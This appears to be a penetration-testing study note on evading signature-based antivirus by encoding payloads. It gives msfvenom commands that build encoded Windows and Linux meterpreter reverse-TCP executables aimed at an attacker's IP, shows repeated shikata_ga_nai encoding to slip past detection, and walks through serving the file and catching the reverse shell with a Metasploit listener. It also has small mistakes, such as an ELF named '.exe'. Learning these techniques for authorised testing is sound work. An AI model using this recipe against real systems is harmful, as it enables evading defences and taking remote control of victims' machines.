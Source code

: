 * Most end user AV solutions use signature-based detection to identify malicious files or executables.

* Attackers can evade older signature based AV solution by encoding the payloads.

* **How is encoding of a payload done**
  * By modifying the payload shell code with the objective of modifying the payload signature.
 
* **Shell code** - A piece of code in the payload used for exploitation.
 
* **This method is no longer that useful as it is hard to surpass most of the AV solutions these days.**

* PRACTICAL
* `msfvenom --list encoders`
* **WIndows x82 payload**
  * `msfvenom -p windows/meterpreter/reverse_tcp LHOST=[Attacker's IP] LPORT= [port] -e x86/shikata_ga_nai -f exe > ~/Desktop/Windows_Payloads/encodedx86.exe`
  * We can repeat the process to increase the chances of by-passing the AV.
  * To increase the number of iterations:
      * -i [number of iterations] OR --iterations [number]
      * `msfvenom -p windows/meterpreter/reverse_tcp LHOST=[Attacker's IP] LPORT= [port] -i 10 -e x86/shikata_ga_nai -f exe > ~/Desktop/Windows_Payloads/encodedx86.exe`
   
* **Linux 32-bit**
  * `msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=[Attacker's IP] LPORT= [port] -i 10 -e x86/shikata_ga_nai -f elf > ~/Desktop/Windows_Payloads/encodedx86.exe`
 
* **Exploitation**
  * `sudo python  -m SimpleHTTPServer 80`
  * In a new terminal:
    * `msfconsole`
    * `use multi/handler`
    * `set payload windows/meterpreter/reverse_tcp`
    * `set lhost`
    * `set lport`
    * `run` --> To start the listener
    * Go to the target machine , downlaod and execute the payload.
    * This will give a meterpreter session where the listener was waiting for the response.
   
* **Note**:
  * Testing these encoders on the anti-virus without any sandbox system is not recommended, as the AV solutions will store and prohibit the signatures made by us.
  * So the way to test it is to create a sandbox system disconnected from the internet, and then test the payloads to see if they are detected.

  

